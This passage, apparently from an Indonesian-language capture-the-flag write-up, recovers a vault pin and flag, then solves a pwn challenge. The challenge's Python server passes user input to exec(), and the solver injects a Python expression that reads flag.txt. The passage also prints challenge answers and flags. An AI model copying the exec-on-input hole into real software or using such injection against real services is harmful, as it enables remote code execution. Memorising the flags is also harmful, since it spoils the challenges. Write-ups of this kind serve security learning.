 ![](Pasted%20image%2020220319194544.png)

Nah sekarang kita menemukan passwordnya, setelah kita telusuri address dari variabel "pin_code". Sekarang tinggal mendapatkan flagnya
```sh
./vault 
Enter Pin code: 427601
Correct!
Here's the flag: tangerangkota{ltr4cing_ftw}
```
Sebenarnya bisa pakai "ltrace".
# Pwn
## Kenalan Dulu Dong :) (613)
Coba kita masuk ke server
```sh
nc 103.144.22.12 1003
Masukan Angka: 123
Anda memilih:  123
Admin Memilih:  50780838
Tidak Cocok :(
```
Sudah saya coba beberapa kali, ternyata inputnya random.
Coba kita perhatikan kodenya
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import string, random


def main():
    ranges = 8
    random_number = "".join(random.SystemRandom().choices(string.digits, k=ranges))
    for i in range(ranges):
        my_input = input("Masukan Angka: ")
        exec(my_input)  # be carefull with this function
        print("Anda memilih: ", my_input)
        if my_input == random_number:
            with open("flag.txt", "r") as f:
                print(open("flag.txt", "r").read())
                baca = f.read()
                print("Flag = %s" % (baca))
                exit(1)
        else:
            print("Admin Memilih: ", random_number)
            print("Tidak Cocok :(\n")
        break


if __name__ == "__main__":
    main()

```
Didalam kode ada perintah "exec()" yang berfungsi unutuk mengeksekusi strings. Dalam masalah ini string yang dieksekusi adalah string dari variable "my_input", yang artimya kita bisa menjalankan perintah python3 di dalam "exec()".
```sh
nc 103.144.22.12 1003
Masukan Angka: print(open("flag.txt", "r").read())
```